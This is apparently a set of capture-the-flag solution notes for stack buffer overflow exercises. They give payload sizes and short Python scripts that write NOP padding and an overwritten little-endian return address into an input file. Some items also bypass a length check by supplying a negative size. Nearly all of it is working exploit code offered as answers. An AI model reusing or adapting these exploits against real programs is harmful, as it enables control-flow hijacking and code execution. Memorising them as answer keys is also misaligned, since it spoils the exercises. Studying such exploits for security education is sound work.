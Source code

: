 ## ex 1.0
Payload size: 25  
Insert 'a' x 25

## ex 1.1
Payload size: 100
Insert 'a' x 100

## ex 2.0
Payload size: 401
Insert 'a' x 401

## ex 2.1
Payload size: 1000
Insert 'a' x 1000

## ex 3.0
Payload size: 64  
Script python:
```
number = b"\x36\x34\x0a"
payload = b"\x90" * 56
payload += b"\x19\x20\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 3.1
Payload size: 112  
Script python:
```
number = b"\x31\x31\x32\x0a"
payload = b"\x90" * 104
payload += b"\x35\x1d\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.0
+ challenge is smart: it will check to make sure you
don't want to provide so much data that the input buffer will
overflow. Triggers with payload size > 60
Script python:
```
number = b"\x2d\x39\x36\x0a"                        # size = -96
payload = b"\x90" * 88
payload += b"\xa1\x18\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```

## ex 4.1
+ triggers with payload size > 54
Script python:
```
number = b"\x2d\x39\x36\x0a"
payload = b"\x90" * 88
payload += b"\x76\x1a\x40\x00\x00\x00\x00\x00"
f = open("in.txt", "wb")
f.write(number + payload)
f.close()
```